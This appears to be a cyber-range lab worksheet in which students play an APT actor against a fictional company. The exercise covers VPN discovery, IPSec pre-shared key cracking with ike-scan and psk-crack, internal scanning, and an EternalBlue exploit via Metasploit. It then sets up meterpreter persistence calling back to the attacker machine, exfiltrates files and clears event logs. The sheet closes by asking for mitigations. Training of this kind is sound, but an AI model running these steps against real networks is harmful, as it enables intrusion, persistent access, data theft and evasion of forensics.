 # VPN Tunnel Pivot

Objective: Act as an APT actor (`APT-62`, "Shadow Wire") to discover, compromise, and leverage a misconfigured site-to-site VPN tunnel to gain initial access to a secured internal network. Establish persistence and exfiltrate data.

Scenario: OpenHands International uses an IPSec VPN tunnel to connect its HQ to a remote branch office. The tunnel is established, but a weak pre-shared key (PSK) and permissive firewall rules within the tunnel create an opportunity for pivot and lateral movement.

## Phase 1: Reconnaissance & VPN Discovery

Goal: Discover the VPN gateway and identify the VPN technology and potential weaknesses.

Instructions:

1.  Access Your Foothold:
    *   SSH into your assigned Kali Linux attacker VM. This VM is on the simulated "internet".
    *   Command: `ssh root@<attacker_vm_ip>`
    *   Password: `[Provided by Lab Instructor]`

2.  Discover the VPN Endpoint:
    *   Perform a port scan against the OpenHands HQ network range provided by your instructor. Look for common VPN ports.
    *   Command: `nmap -sS -p 500,4500,1194,943,8443 <hq_network_range>`
    *   Finding: Which IP address has port `500/udp` open? This is the standard port for IKE (Internet Key Exchange), used by IPSec VPNs.
    *   VPN_GATEWAY_IP: `[DISCOVER THIS]`

3.  Fingerprint the VPN Service:
    *   Use a tool like `ike-scan` to interrogate the VPN gateway and discover its vendor and supported encryption methods.
    *   Command: `ike-scan -A -M <VPN_GATEWAY_IP>`
    *   Finding: What is the vendor ID (e.g., `Cisco`, `StrongSwan`) and what weak transformation sets (e.g., `3des-sha1-modp1024`) does it support?
    *   Vendor: `[DISCOVER THIS]`
    *   Weak Proposal: `[DISCOVER THIS]`

Checkpoint: You have identified the VPN concentrator and confirmed it supports weak cryptographic algorithms. Proceed to the next phase.

## Phase 2: VPN Weakness Exploitation

Goal: Crack the VPN pre-shared key to gain access to the tunnel.

Instructions:

1.  Perform a PSK Brute-Force Attack:
    *   The `ike-scan` tool can be used to perform a brute-force attack against the IKE handshake using a provided wordlist of common PSKs.
    *   Command: `ike-scan -A -M <VPN_GATEWAY_IP> --pskcrack --auth=3 --id=mygroup`
        *   *Note: The `--id` value might need to be discovered or is often set to a group name. Try common names like `vpn`, `group`, or the company name if this step fails.*
    *   This command will capture the IKE handshake hashes.

2.  Crack the Captured Hash:
    *   `ike-scan` will save the hash to a file (e.g., `pskkey.txt`). Use `psk-crack` with the provided wordlist to crack the key.
    *   Command: `psk-crack -d /usr/share/wordlists/rockyou.txt pskkey.txt`
    *   Finding: What is the cracked Pre-Shared Key?
    *   VPN_PSK: `[DISCOVER THIS]`

3.  Configure VPN Access:
    *   Your Kali VM has VPN client software pre-installed. Configure a new connection using the details you've gathered.
    *   Settings:
        *   Gateway: `<VPN_GATEWAY_IP>`
        *   Type: IPSec (IKEv1) with PSK
        *   Group/ID: `mygroup` (or the one you discovered)
        *   Secret: `<VPN_PSK>`
        *   Phase1 Algorithms: `3des-sha1-modp1024` (the weak one you found)
        *   Phase2 Algorithms: `aes128-sha1`
    *   Command to connect: `sudo systemctl start strongswan` or use the GUI network manager.

4.  Verify Connection:
    *   Check that you have received a new IP address on the `tun0` interface. This is your IP inside the VPN tunnel.
    *   Command: `ip addr show tun0`
    *   Your VPN IP: `[DISCOVER THIS]`

Checkpoint: You are now connected to the OpenHands internal network via the VPN tunnel. You have successfully bypassed the perimeter firewall.

## Phase 3: Internal Pivot & Lateral Movement

Goal: Explore the network you now have access to and find a high-value target.

Instructions:

1.  Discover the VPN Subnet:
    *   Your VPN IP is likely on a dedicated subnet for remote users (e.g., `10.10.20.0/24`). Discover what other networks are reachable.
    *   Command: `netdiscover -i tun0 -r <vpn_subnet>/24` (e.g., `-r 10.10.20.0/24`)

2.  Map Accessible Internal Networks:
    *   Check the routing table provided to your VPN adapter. You might have routes to other, more sensitive subnets.
    *   Command: `ip route show`
    *   Finding: What internal corporate subnet is listed in the routing table? (e.g., `192.168.100.0/24` via `10.10.20.1`).
    *   INTERNAL_NET: `[DISCOVER THIS]`

3.  Scan the Internal Network:
    *   Perform a targeted port scan on the `INTERNAL_NET` to find live hosts and services. Be stealthy.
    *   Command: `nmap -sn -T2 <INTERNAL_NET>`
    *   Finding: Identify the IP address of a server that responds. Note it as `TARGET_SERVER`.

4.  Enumerate the Target:
    *   Perform a detailed scan on the `TARGET_SERVER` to find potential entry points.
    *   Command: `nmap -sV -sC -O -p- <TARGET_SERVER>`
    *   Finding: What services are running? Note any that seem vulnerable (e.g., `SMB`, ` outdated HTTP`, `RDP`).
    *   Open Ports/Services: `[LIST THEM HERE]`

Checkpoint: You have mapped the internal network and identified a potential target server for further exploitation.

## Phase 4: Establishing a Foothold and Persistence

Goal: Exploit a service on the internal server to gain a shell and create a persistent backdoor.

Instructions:

1.  Exploit the Service:
    *   Based on your findings from the previous step, choose an exploit.
    *   Example: If you found SMB with a known vulnerability (e.g., EternalBlue), use `msfconsole` to launch the exploit.
    *   Metasploit Commands:
        ```bash
        msf6 > use exploit/windows/smb/ms17_010_eternalblue
        msf6 exploit(...) > set RHOSTS <TARGET_SERVER>
        msf6 exploit(...) > run
        ```
    *   Success: You should receive a `meterpreter` shell.

2.  Establish Persistence:
    *   Once you have a shell, create a persistent backdoor so you can re-enter the network even if the VPN connection drops.
    *   Meterpreter Command: `run persistence -U -i 60 -p 443 -r <YOUR_ATTACKER_VM_IP>`
    *   This creates a scheduled task that will call back to your Kali box every 60 seconds.

3.  Exfiltrate Simulated Data:
    *   Search the target server for files containing simulated sensitive data.
    *   Meterpreter Commands:
        ```bash
        search -f *password*.txt
        search -f *volunteer*.xlsx
        download C:\\Users\\Admin\\Documents\\dummy_data.xlsx
        ```
    *   Finding: What is the name of the file you exfiltrated?
    *   Filename: `[DISCOVER THIS]`

Checkpoint: You have compromised an internal server, established a persistent beacon, and successfully exfiltrated data.

## Phase 5: Covering Tracks (Optional Bonus)

Goal: Remove evidence of your initial VPN connection and internal activity.

Instructions:

1.  Disconnect the VPN: Cleanly disconnect your Kali VM from the IPSec VPN.
2.  Clear Logs on Target Server: From your Meterpreter session, attempt to clear the Windows Event Logs.
    *   Command: `run event_manager -c`
3.  Operate from Your Backdoor: Wait for your persistent agent to call back to your Kali machine. Now you have access without the VPN, which is much stealthier.

Final Report: Document all the `[DISCOVER THIS]` fields. Write a brief analysis on the critical misconfigurations that allowed this attack to succeed (e.g., weak PSK, permissive VPN routing, vulnerable internal services) and provide one mitigation strategy for each.